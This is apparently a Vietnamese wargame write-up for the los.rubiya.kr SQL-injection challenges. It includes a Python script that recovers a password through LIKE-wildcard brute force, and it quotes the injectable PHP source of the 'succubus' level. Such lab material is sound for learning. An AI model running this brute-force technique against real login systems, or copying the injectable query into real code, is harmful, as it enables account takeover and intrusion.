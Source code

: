 ![](<.gitbook/assets/image (1) (1) (1).png>)

Bài này sẽ bypass like dùng `a%` brute force password

```python
import requests
import string

char = string.printable
url="https://los.rubiya.kr/chall/assassin_14a1fd552c61c60f034879e5d4171373.php/"
header = {'Cookie':'PHPSESSID=1k033ilrvrlrsps5aktrqc28hq'}
session = requests.Session()
pw = ""
for j in range(0,256):
    for i in char:
        pw += i
        print(pw)
        r = session.get(url=url , headers=header , params={"pw" : f"{pw}%"})
        if "Hello guest" in r.text:
            print(pw)
        else:
            pw = pw.replace(i , "")  
        if "Hello admin" in r.text:
            print("flag : " , pw)
            break
```

## SUCCUBUS

```php
<?php
  include "./config.php"; 
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/\'/',$_GET[id])) exit("HeHe");
  if(preg_match('/\'/',$_GET[pw])) exit("HeHe");
  $query = "select id from prob_succubus where id='{$_GET[id]}' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) solve("succubus"); 
  highlight_file(__FILE__); 
?>
```
